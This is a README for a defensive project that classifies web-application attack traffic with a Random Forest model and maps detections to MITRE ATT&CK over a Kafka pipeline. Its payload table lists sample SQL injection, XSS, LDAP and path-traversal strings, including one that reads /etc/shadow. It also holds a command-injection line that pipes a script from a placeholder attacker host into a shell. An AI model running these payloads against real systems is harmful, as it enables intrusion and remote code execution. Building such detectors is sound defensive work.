

# 🛡️ Cyber Attack Detection Agent — MITRE ATT&CK

Detects web application attacks in real-time HTTP traffic using a trained Random Forest
classifier, maps findings to the MITRE ATT&CK framework, and streams everything through
a Kafka pipeline with distributed tracing. Runs fully offline — no API keys required.

**Repository:** [github.com/NathanBeer/cyberProj](https://github.com/NathanBeer/cyberProj/tree/main)

---

## ✒️ Authors/Contributors

* Nathan Beer — [GitHub](https://github.com/NathanBeer)
* Lior Lisker — [GitHub](https://github.com/NathanBeer/cyberProj/tree/main)

---

## 📋 Table of Contents

1. [Dataset](#-dataset)
2. [Features](#-features)
3. [Detected Attack Types → MITRE ATT&CK](#-detected-attack-types--mitre-attck)
4. [Pipeline Architecture](#-pipeline-architecture)
5. [Docker Setup](#-docker-setup)
6. [Quick Start — Kafka Streaming Pipeline](#-quick-start--kafka-streaming-pipeline)
7. [Quick Start — Flask Web App](#-quick-start--flask-web-app)
8. [Data Generation](#-data-generation-notebook-1--producer)
9. [Attack Chain Detection](#-attack-chain-detection)
10. [Results & Statistics](#-results--statistics)
11. [Project Structure](#-project-structure)

---

## 📦 Dataset

**CSIC 2010 Web Application Attacks** (Spanish National Research Council)

| Property | Value |
|---|---|
| Total requests | 8,000 labelled HTTP requests |
| Normal traffic | 5,000 requests |
| Attack traffic | 3,000 requests |
| Source | Real e-commerce traffic from a Java EE web application (`tienda1`) |
| Attack categories | SQL injection, XSS, buffer overflow, path traversal, CSRF, LDAP injection, parameter tampering |

The dataset captures authentic HTTP traffic targeting a shopping application, making it
ideal for training a classifier that generalises to real-world attack patterns rather than
synthetic data. The classifier is trained **exclusively** on this dataset — the producer
generates novel payloads so the model is always tested against traffic it has never seen.

> **Download from Kaggle:** https://www.kaggle.com/datasets/ispangler/csic-2010-web-application-attacks
>
> Place the file at: `cyber-attack-detection/data/csic_database.csv`

---

## ✨ Features

- **ML Classifier** — Random Forest trained exclusively on the CSIC 2010 dataset (no synthetic training data)
- **21-Feature Extractor** — URL length, body length, SQL keywords, XSS patterns, path traversal, encoding anomalies, negative/extreme parameter values, and more
- **8 Attack Types** — SQL injection, XSS, command injection, path traversal, buffer overflow, LDAP injection, CSRF, parameter tampering
- **MITRE ATT&CK Mapping** — every detection linked to a technique ID, tactic, and direct URL
- **Attack Chain Detection** — flags multi-stage attacks from the same session (e.g. path traversal → SQL injection → command injection)
- **Kafka Streaming Pipeline** — producer → classifier → CSV, all traced end-to-end
- **Jaeger Distributed Tracing** — every pipeline stage is a span, visible in the Jaeger UI
- **Redpanda Console** — live view of Kafka topic messages
- **Statistics Notebook** — confusion matrix, confidence histograms, MITRE tactic charts, chain pattern bar chart
- **Flask Web App** — interactive single-request analyser at `localhost:5000`

---

## 🎯 Detected Attack Types → MITRE ATT&CK

| Attack Type          | MITRE ID   | Technique                                     | Tactic         |
|----------------------|------------|-----------------------------------------------|----------------|
| SQL Injection        | T1190      | Exploit Public-Facing Application             | Initial Access |
| Cross-Site Scripting | T1059.007  | Command and Scripting Interpreter: JavaScript | Execution      |
| Command Injection    | T1059      | Command and Scripting Interpreter             | Execution      |
| Path Traversal       | T1083      | File and Directory Discovery                  | Discovery      |
| Buffer Overflow      | T1203      | Exploitation for Client Execution             | Execution      |
| LDAP Injection       | T1190      | Exploit Public-Facing Application             | Initial Access |
| CSRF                 | T1185      | Browser Session Hijacking                     | Collection     |
| Parameter Tampering  | T1565.001  | Stored Data Manipulation                      | Impact         |

---

## 🏗️ Pipeline Architecture

The full pipeline runs inside Docker. Notebook 1 produces traffic, notebook 2 classifies
it in real-time with distributed tracing, and notebook 3 visualises the results.



### How each stage works

| Stage | What it does |
|---|---|
| **Random Forest** | Binary classifier (normal / anomalous) — trained on 21 HTTP features extracted from CSIC 2010 |
| **Rule Engine** | Regex patterns on URL + body + headers to identify the specific attack type |
| **MITRE Mapper** | Looks up technique ID, tactic, description, mitigations, and direct ATT&CK URL |
| **Chain Detector** | Tracks attack types per session cookie in a 120-second window; alerts when ≥ 2 distinct attack types are seen |
| **Jaeger** | Each Kafka message produces a root span with child spans per stage — full distributed trace visible in the UI |

---

## 🐳 Docker Setup

The entire pipeline (Kafka, JupyterLab, Jaeger, Redpanda Console) runs in Docker via a
single `compose.yml`. No local Python environment is needed to run the notebooks.

### Services

| Service | Container Name | Port | Purpose |
|---|---|---|---|
| **Kafka** | `kafka` | `9092` (internal) | Message broker — receives and stores HTTP request events |
| **Redpanda Console** | `redpanda-console` | `8080` | Web UI to inspect Kafka topic messages in real-time |
| **Jaeger** | `jaeger` | `16686` | Distributed trace UI — visualise per-event pipeline spans |
| **JupyterLab** | `jupyterlab` | `8888` | Runs all four notebooks with all Python dependencies pre-installed |

### What the Compose file provides

- A **custom JupyterLab image** (`Dockerfile.jupyter`) with scikit-learn, kafka-python, opentelemetry, and all dependencies baked in — no manual `pip install` required inside the container
- A **KRaft-mode Kafka broker** (no ZooKeeper required)
- **Volume mounts** that expose `data/`, `models/`, `src/`, and `pipeline/pipeline_data/` into the container at `/home/jovyan/work/` — the notebooks read your local dataset and write results back to your machine
- An **internal Docker network** (`pipeline-net`) so containers address each other by service name (`kafka:9092`, `jaeger:4317`)

### Starting the pipeline

```bash
# Windows — double-click or run from terminal:
start_pipeline.bat

# Linux / Mac — from the pipeline/ directory:
docker compose -f pipeline/compose.yml up --build
```

### Stopping the pipeline

```bash
docker compose -f pipeline/compose.yml down
```

### Checking container health

```bash
docker ps
# All four containers should show status: Up
```

> **Tip:** If a container shows `Exiting`, run `docker logs <container-name>` to diagnose.
> The most common cause is Docker Desktop not running, or `data/csic_database.csv` missing.

---

## 🚀 Quick Start — Kafka Streaming Pipeline

### Requirements
- [Docker Desktop](https://www.docker.com/products/docker-desktop/) (running)
- Windows (for the `.bat` launchers) — or run the commands manually on Linux/Mac

### 1. Get the dataset

Download **csic_database.csv** from Kaggle:
> https://www.kaggle.com/datasets/ispangler/csic-2010-web-application-attacks

Place the file at:
```
cyber-attack-detection/data/csic_database.csv
```

### 2. Start the pipeline

Double-click **`start_pipeline.bat`** (or run it from a terminal).

This builds the JupyterLab Docker image and starts all four services:

| Service           | URL                        |
|-------------------|----------------------------|
| JupyterLab        | http://localhost:8888  (token: `cyberdetect`) |
| Redpanda Console  | http://localhost:8080  |
| Jaeger Tracing UI | http://localhost:16686 |
| Kafka broker      | `kafka:9092` (internal — no UI, used by notebooks) |

### 3. Run the notebooks in order

Open JupyterLab at http://localhost:8888 and run each notebook with **Kernel → Restart & Run All**:

| Notebook | Purpose |
|----------|---------|
| `0_retrain.ipynb` | Retrains the classifier inside the container using the CSIC dataset. **Must run first.** |
| `1_producer.ipynb` | Generates 300 HTTP requests (normal sessions, attack chains, random one-offs) → Kafka |
| `2_consumer_classifier.ipynb` | Consumes events, classifies each request, detects attack chains, saves results |
| `3_statistics.ipynb` | Visualisations: traffic split, attack types, MITRE tactics, confidence, chain patterns |

> ⚠️ Run notebooks **1 and 2 at the same time** (open both, start both). The consumer must
> be listening while the producer sends messages.

### 4. View traces in Jaeger

Go to http://localhost:16686, select service **http-request-classifier**, and search for traces.
Each event produces spans for: `consume` → `ml.classify` → `rule.detect_attack_type` → `mitre.lookup` → `chain.detect` → `storage.write_csv`

---

## 🌐 Quick Start — Flask Web App

For single-request interactive analysis (no Docker required):

```bash
pip install -r requirements.txt
python train.py          # trains model from data/csic_database.csv
python run.py            # starts Flask at http://localhost:5000
```

Or double-click **`run.bat`**.

---

## 🔄 Data Generation (Notebook 1 — Producer)

The producer simulates realistic HTTP traffic against a fictional e-commerce application
(`tienda1`) that mirrors the structure of the CSIC 2010 dataset the classifier was trained on.
This keeps the request format familiar to the model while using **novel payloads** the
classifier has never seen, giving honest confidence scores.

### Traffic Mix

300 HTTP requests are generated per run, split across three session types:

| Type | Share | Description |
|---|---|---|
| Normal sessions | 60% | 2–4 legitimate requests sharing a session cookie (browse, search, login, checkout) |
| Attack chains | 25% | 1–2 normal warmup requests followed by 2–3 escalating attacks on the same cookie |
| Random one-offs | 15% | Single anomalous request with no session linkage |

### Normal Request Types

Normal requests target real CSIC endpoints with realistic parameters:

| Endpoint | Method | Example |
|---|---|---|
| `publico/anadir.jsp` | GET | `?id=12&nombre=Vino+Rioja&precio=150&cantidad=2` |
| `publico/buscar.jsp` | GET | `?id=5&nombre=Aceite+Oliva&precio=200&cantidad=1` |
| `publico/autenticar.jsp` | POST | `correo=juan@mail.com&password=abc123` |
| `publico/pagar.jsp` | POST | `tarjeta=4111111111111111&mes=12&anio=2027` |

### Attack Payloads

Each attack type uses a pool of distinct payloads injected into URL parameters or the request body:

| Attack Type | Example Payload |
|---|---|
| SQL Injection | `' OR 1=1 LIMIT 1--` · `1 UNION ALL SELECT table_name FROM information_schema.tables--` |
| XSS | `<details open ontoggle=alert(1)>` · `<input autofocus onfocus=alert(document.domain)>` |
| Command Injection | `; curl http://evil.com/shell.sh \| sh` · `\| net user` |
| Path Traversal | `....//....//etc/shadow` · `%2e%2e%2f%2e%2e%2fetc%2fpasswd` |
| LDAP Injection | `)(cn=*))(|(cn=*` · `admin)(&(password=*))` |
| Buffer Overflow | 400–800 repeated characters |
| Parameter Tampering | Negative prices (`precio=-1`) · extreme quantities (`cantidad=-99999`) |

### Attack Chain Sequences

Attack chains follow realistic MITRE ATT&CK kill-chain progressions. Each stage shares the
same session cookie so the chain detector can correlate them:

| Chain | Stages |
|---|---|
| Recon → Credential Access | `path_traversal → sql_injection` |
| Auth Bypass → RCE | `sql_injection → command_injection` |
| Auth Bypass → Data Manipulation | `sql_injection → parameter_tampering` |
| Full Kill Chain | `path_traversal → sql_injection → command_injection` |
| Client Attack → Escalation | `xss → command_injection` |
| Recon → Directory Attack | `path_traversal → ldap_injection` |

### Session Tracking

Each session is assigned a unique `JSESSIONID` cookie. Attack chain sessions begin with
1–2 legitimate requests (to simulate an attacker blending in) before the escalating
attack payloads begin. The consumer's sliding window tracks attack types per cookie and
raises a chain alert when 2+ distinct attack types appear within 120 seconds.

---

## 🔗 Attack Chain Detection

The pipeline detects **multi-stage attacks** from the same browser session.

The producer generates three traffic types:
- **60% normal sessions** — 2–4 legitimate requests sharing a session cookie
- **25% attack chains** — 1–2 normal warmup requests followed by 2–3 escalating attacks (same cookie)
- **15% random one-offs** — single anomalous requests with no session linkage

The consumer tracks attack types per session cookie in a 120-second sliding window.
When a session accumulates 2+ distinct attack types, a chain alert is printed:

```
[  14] 🚨 anomalous   99% conf | path_traversal    T1083  -> https://attack.mitre.org/techniques/T1083/
[  15] 🚨 anomalous  100% conf | sql_injection      T1190  -> https://attack.mitre.org/techniques/T1190/  [CHAIN: path_traversal -> sql_injection]
[  16] 🚨 anomalous  100% conf | command_injection  T1059  -> https://attack.mitre.org/techniques/T1059/  [CHAIN: command_injection -> path_traversal -> sql_injection]
```

Example chain patterns based on real MITRE ATT&CK kill chain stages:

| Chain | Stages | Kill Chain Phase |
|-------|--------|-----------------|
| Recon → Credential Access | `path_traversal → sql_injection` | Discovery → Initial Access |
| Auth Bypass → RCE | `sql_injection → command_injection` | Initial Access → Execution |
| Full Kill Chain | `path_traversal → sql_injection → command_injection` | Discovery → Initial Access → Execution |
| Client Attack → Escalation | `xss → command_injection` | Execution → Execution |

---

## 📊 Results & Statistics

After running all four notebooks, notebook 3 generates the following visualisations from
`pipeline_data/classified_results.csv`.

### Live Consumer Output (Notebook 2)

Real-time classification output showing MITRE technique links and chain alerts as requests arrive:


---

### Traffic Classification Split

Pie chart showing the proportion of normal vs. anomalous traffic across all 300 classified requests:


---

### Attack Type Distribution

Bar chart of detected attack types (SQL injection, XSS, path traversal, command injection, etc.):


---

### MITRE ATT&CK Tactic Coverage

Bar chart mapping detections to MITRE tactic categories (Initial Access, Execution, Discovery, Collection, Impact):


---

### Classifier Confidence Distribution

Histogram of ML classifier confidence scores — shows how decisive the model is across all 300 requests:


---

### Confusion Matrix

Confusion matrix comparing ground-truth labels (from the producer) vs. ML predictions, plus per-class precision/recall:


---

### Attack Chain Patterns

Bar chart of detected multi-stage attack chain sequences and how frequently each pattern appeared:


---

### Jaeger Distributed Traces

End-to-end trace view for a single classified HTTP request, showing all pipeline spans:


---

> 📸 **To populate the screenshots above:** run the full pipeline (notebooks 0 → 1+2 simultaneously → 3),
> then save each chart/output as a PNG into `docs/screenshots/` using the filenames shown above.
> In JupyterLab, right-click any chart → *Save Image As…* or use matplotlib's save button.

---

## 📂 Project Structure

```
cyber-attack-detection/
├── src/
│   ├── preprocessor.py     # Load and parse CSIC 2010 CSV
│   ├── features.py         # 21-feature HTTP request extractor
│   ├── classifier.py       # Random Forest classifier (train + predict)
│   ├── mitre_mapper.py     # MITRE ATT&CK database + rule-based detection
│   ├── agent.py            # Detection agent (ML + rules + MITRE)
│   └── app.py              # Flask web application
├── templates/
│   └── index.html          # Web UI
├── docs/
│   └── screenshots/        # Pipeline output screenshots (populate after running)
├── data/
│   └── csic_database.csv   # CSIC 2010 dataset (download separately — see above)
├── models/
│   └── classifier.joblib   # Trained model (generated by notebook 0 or train.py)
├── pipeline/
│   ├── compose.yml         # Docker Compose — Kafka, JupyterLab, Jaeger, Redpanda
│   ├── Dockerfile.jupyter  # JupyterLab image with all Python dependencies
│   ├── pipeline_data/      # classified_results.csv written here by notebook 2
│   └── notebooks/
│       ├── 0_retrain.ipynb              # Retrain model inside container (run first)
│       ├── 1_producer.ipynb             # Generate HTTP traffic → Kafka
│       ├── 2_consumer_classifier.ipynb  # Consume + classify + chain detect
│       └── 3_statistics.ipynb           # Charts, confusion matrix, chain analysis
├── start_pipeline.bat      # One-click pipeline launcher (Windows)
├── run.bat                 # One-click Flask web app launcher (Windows)
├── train.py                # Standalone model training script
├── generate_data.py        # Synthetic data generator (fallback)
└── requirements.txt        # Python dependencies for the Flask app
```
